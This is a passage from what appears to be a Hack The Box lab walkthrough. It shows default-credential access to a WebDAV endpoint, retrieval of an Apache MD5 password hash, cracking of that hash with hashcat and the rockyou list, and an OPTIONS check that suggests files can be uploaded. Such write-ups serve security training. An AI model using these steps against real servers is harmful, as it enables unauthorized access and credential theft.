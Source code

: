 ![evidence](./static/04-webdav.png)

When I use the `curl` command:
```shell
$ curl door.legacyhangtuah.com/webdav/passwd.dav -u 'admin:admin'
admin:$apr1$9tA20Rqw$4qbIQ4QFUV6uUVhfH9NSJ/
```
Then I identify a hash of the `admin` user, and I save the hash in a file called `admin.hash`., when I use the `hashid` command:
```shell
$ hashid admin.hash
--File 'admin.hash'--
Analyzing '$apr1$9tA20Rqw$4qbIQ4QFUV6uUVhfH9NSJ/'
[+] MD5(APR)
[+] Apache MD5
--End of file 'admin.hash'--
```
Then I can see that it is an `Apache MD5` hash. when I look up the hash mode in `hashcat`:
```shell
$ hashcat --help | grep -i "MD5"
...SNIPPED...
1600 | Apache $apr1$ MD5, md5apr1, MD5(APR) | FTP, HTTP, SMTP, LDAP Server
...SNIPPED...
```
Then I identify the mode `1600`. When I run `hashcat` with the Rockyou list to crack it:
```shell
$ hashcat -a 0 -m 1600 admin.hash \
> /mnt/d/miguel/estudiar/HTB/rockyou.txt --force
...SNIPPED...
$apr1$9tA20Rqw$4qbIQ4QFUV6uUVhfH9NSJ/:admin
...SNIPPED...
```
But it is the same password that I used for basic auth, and I remember that the Hacktricks article talks about handling files. When I check the `OPTIONS`  method in the `/webdav` endpoint:
```shell
curl -X OPTIONS door.legacyhangtuah.com/webdav/ -u 'admin:admin' -v
...SNIPPED...
< Server: Apache/2.4.41 (Ubuntu)
< DAV: 1,2
< DAV: <http://apache.org/dav/propset/fs/1>
< MS-Author-Via: DAV
< Allow: OPTIONS,GET,HEAD,POST,DELETE,TRACE,PROPFIND,PROPPATCH,COPY,
  MOVE,LOCK,UNLOCK
...SNIPPED...
```
Then I can see that I can use multiples methods, and I may be able to upload files.
